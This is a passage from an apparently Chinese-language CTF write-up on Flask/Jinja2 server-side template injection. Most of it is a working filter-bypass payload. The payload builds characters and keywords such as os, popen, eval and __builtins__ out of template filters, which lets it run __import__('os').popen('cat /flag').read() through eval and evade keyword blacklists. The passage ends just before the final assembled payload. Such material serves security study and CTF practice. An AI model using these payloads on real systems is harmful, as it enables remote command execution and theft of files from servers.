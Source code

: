 相当于执行

```
lipsum.__globals__.get('os').popen('ls /var/www/flask').read()
```

---

```
# 首先构造出所需的数字: 
{% set zero = (self|int) %}    # 0, 也可以使用lenght过滤器获取数字
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set three = five-one-one %}    # 3
{% set nine = (two*two*two*two-five-one-one) %}    # 9
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串: 
{% set space = self|string|min %}    # 空格
{% set point = self|float|string|min %}    # .

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc = bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set yin = bfhc%((three~nine)|int) %}    # 使用%c构造引号 '
{% set xhx = bfhc%((nine~five)|int) %}    # 使用%c构造下划线 _
{% set right = bfhc%((four~one)|int) %}    # 使用%c构造右括号 )
{% set left = bfhc%((four~zero)|int) %}    # 使用%c构造左括号 (

{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set so = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx~xhx~but~xhx~xhx %}    # __builtins__

{% set ini = dict(ini=aa,t=bb)|join %}    # init
{% set glo = dict(glo=aa,bals=bb)|join %}    # globals
{% set itm = dict(ite=aa,ms=bb)|join %}    # items

# 将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read(): 
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}

# 然后将上面构造的各种变量添加到SSTI万能payload里面就行了: 
{% for f,v in (whoami|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}    # globals
	{% if f == bul %} 
		{% for a,b in (v|attr(itm))() %}    # builtins
			{% if a == ev %}    # eval
				{{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
			{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}

# 最后的payload如下:
```